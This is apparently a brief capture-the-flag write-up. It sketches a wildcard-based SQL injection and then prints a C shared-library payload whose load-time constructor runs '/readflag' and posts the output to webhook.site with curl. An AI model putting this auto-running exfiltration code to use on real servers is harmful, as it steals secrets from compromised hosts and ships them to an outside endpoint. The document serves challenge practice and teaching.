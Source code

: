 Part 1 of the challenge involves sqli and using '%' to guess the characters and get the flag.

Part 2 of the challenge involves executing a file within the remote server - 
```c
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor)) void on_load() {
    FILE *fp;
    char buffer[128];
    char curlCommand[256];
    const char *url = "https://webhook.site/";
    fp = popen("/readflag", "r");
    if (fp == NULL) {
        perror("popen failed");
        return;
    }
    if (fgets(buffer, sizeof(buffer), fp) != NULL) {
        snprintf(curlCommand, sizeof(curlCommand), "curl -X POST -d \"flag=%s\" %s", buffer, url);
        system(curlCommand);
    }
    pclose(fp);
}
```


